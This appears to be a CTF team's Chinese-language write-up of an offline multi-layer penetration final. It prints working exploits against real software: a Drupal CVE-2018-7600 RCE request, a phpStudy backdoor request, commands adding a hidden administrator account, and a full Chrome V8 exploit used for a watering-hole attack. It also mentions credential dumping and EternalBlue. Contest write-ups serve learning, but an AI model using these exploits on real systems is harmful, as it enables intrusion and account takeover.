


本次巅峰极客决赛为线下渗透赛，我们 SU 取得了 2nd🥈的成绩，感谢队里师傅们的辛苦付出！同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：suers_xctf@126.com
以下是我们 SU 本次 巅峰极客 2023 决赛的 writeup。
赛制描述
本次比赛一共8小时，上午10点到下午6点，多层网络渗透赛，其中包含了一些工控的点，工控和渗透比重五五开，不过大多都是打渗透拿分。比赛中不允许选手联网，但是有联网区4根网线可以上网下资料，由于赛中不需要交wp，本wp是感觉回忆描述而来，如有偏差，多多包涵。
网络拓扑
本次比赛没有提供网络拓扑，需要自己攻击一步步推理，但是比赛的中途给了一个题目“比赛中可以根据大屏幕上的拓扑图推测逻辑”，但是屏幕又远又花，而且图很抽象。

所以根据实际情况我们画了一张自己感觉上的图(事后根据回忆画的，有些差异)
1、招聘网站173.20.1.94
因为开场题目只给了这个ip，所以大家都在打这个，这个招聘网站是直接打的drupal远程代码执行 (CVE-2018-7600),在vulhub上有直接的exp1
2
3
4
5
6
7
8
9
10
11POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
拿下后，本来想尝试拿这台服务器搭建代理，或者提权等，大概过了1小时，发了公告1、招聘网站只是一个签到，不需要深入利用，然后开始扫描173.20.1.x/24
2、门户网站 173.20.1.53
这就很奇怪了，主办方没给公告之前扫了很多次没东西，发了公告后直接扫描到了这个网站，而且给了phpinfo，phpinfo提供了php版本是 5.4.45,存在phpstudy的后门漏洞，poc直接打。1
2
3
4
5
6
7
8
9
10
11GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding:gzip,deflate
Accept-Charset:c3lzdGVtKCJuZXQgdXNlciIpOw==
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 2
这个是windows写马挺怪的，花了一些时间上去，发现是高权限用户，命令执行增加用户1
2net user dddd123 dddqwe@!@# /add
net localgroup administrators dddd123 /add
然后使用猕猴桃可以抓admin到密码，同时存在wireshark软件
3、办公电脑 15.100.70.10
主办方多次暗示，这个办公电脑会使用浏览器也访问门户。这题应该是最恶心的一个点。
因为拿下来门户，可以直接挂黑页水坑攻击，我们在173.20.1.53上挂一个恶意js，让办公电脑访问到rce。
首先我们使用门户网站上的wireshark软件抓到办公电脑访问的流量，其中看到了头部带有的ua，显示是89.0.4389.114。
刚好是2021年爆出来的chrome 0day rce版本。
中途大概就两三个队打了，主办方考虑到大家没啥环境，就给了cs4.2版本。最良心的是把exp也给了，再到最后直接给了word说明文档1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86<script>
function gc() {
for (var i = 0; i < 0x80000; ++i) {
var a = new ArrayBuffer();
}
}
let shellcode = [不告诉你];
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var main = wasmInstance.exports.main;
var bf = new ArrayBuffer(8);
var bfView = new DataView(bf);
function fLow(f) {
bfView.setFloat64(0, f, true);
return (bfView.getUint32(0, true));
}
function fHi(f) {
bfView.setFloat64(0, f, true);
return (bfView.getUint32(4, true))
}
function i2f(low, hi) {
bfView.setUint32(0, low, true);
bfView.setUint32(4, hi, true);
return bfView.getFloat64(0, true);
}
function f2big(f) {
bfView.setFloat64(0, f, true);
return bfView.getBigUint64(0, true);
}
function big2f(b) {
bfView.setBigUint64(0, b, true);
return bfView.getFloat64(0, true);
}
class LeakArrayBuffer extends ArrayBuffer {
constructor(size) {
super(size);
this.slot = 0xb33f;
}
}
function foo(a) {
let x = -1;
if (a) x = 0xFFFFFFFF;
var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
arr.shift();
let local_arr = Array(2);
local_arr[0] = 5.1;//4014666666666666
let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
arr[0] = 0x1122;
return [arr, local_arr, buff];
}
for (var i = 0; i < 0x10000; ++i)
foo(false);
gc(); gc();
[corrput_arr, rwarr, corrupt_buff] = foo(true);
corrput_arr[12] = 0x22444;
delete corrput_arr;
function setbackingStore(hi, low) {
rwarr[4] = i2f(fLow(rwarr[4]), hi);
rwarr[5] = i2f(low, fHi(rwarr[5]));
}
function leakObjLow(o) {
corrupt_buff.slot = o;
return (fLow(rwarr[9]) - 1);
}
let corrupt_view = new DataView(corrupt_buff);
let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
let idx0Addr = corrupt_buffer_ptr_low - 0x10;
let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
let delta = baseAddr + 0x1c - idx0Addr;
if ((delta % 8) == 0) {
let baseIdx = delta / 8;
this.base = fLow(rwarr[baseIdx]);
} else {
let baseIdx = ((delta - (delta % 8)) / 8);
this.base = fHi(rwarr[baseIdx]);
}
let wasmInsAddr = leakObjLow(wasmInstance);
setbackingStore(wasmInsAddr, this.base);
let code_entry = corrupt_view.getFloat64(13 * 8, true);
setbackingStore(fLow(code_entry), fHi(code_entry));
for (let i = 0; i < shellcode.length; i++) {
corrupt_view.setUint8(i, shellcode[i]);
}
main();
</script>
这里生成的shellcode本来是被火绒杀的了，但是比赛到一半主办方说基于很多人没做出来，就挨个把火绒关闭了，hhh。基本上大家都能通过这个直接上线了。
4、智慧水利服务 15.100.70.100
这一台就有点恶心了上面有4个web题，4个flag。但是因为只有办公电脑通他。我们本地和门户均不通，所以代理这一块就很蛋疼，其实只要代理到了本地就不是很难了。
分别是
1、80端口 discuz 7.2的rce
2、8080端口 禅道cnvd_2020_121325
3、3030端口 traggo 这玩意到了后台 不知道怎么打
4、8443端口的ofbiz 反序列化
这里比较恶心的是禅道其实是后台洞，需要打了discuz然后根目录下拿到flag，flag文件后面留了禅道管理员的密码
5、工程师站192.168.2.100
在办公电脑上浏览器打开了192的一个网站，猜测存在192段的地址。然后扫描直接扫到了192.168.2.100存在永恒之蓝，正要去网上下资料的时候，主办方提供了一下“永恒之蓝利用工具”，他真的，我哭死，直接打了上192.168.2.100，
6、操作员站192.168.2.210
楠哥在上面玩工控的时候发现了一个账号密码信息
Operator Station’s
IP:192.168.2.210
User:monitor
Password:nTwn3q3^ph71A
这个是操作员站的密码，猜测是rdp的，就直接上了，然后用猕猴桃读密码rdp，管理员桌面存在一个flag和几个软件。
7、工控 192.168.2.200
在210和110上都有一些工控相关的内容，比如210的管理员账号的浏览器默认打开了192.168.2.200
至此渗透相关的应该都打了，其实漏洞都不是很难，主要是代理太多很难受。接下来按照题目的描述是在210上存在wireshark软件，使用wireshark抓210和220的通讯流量分析制定的题目。


工控wp待续….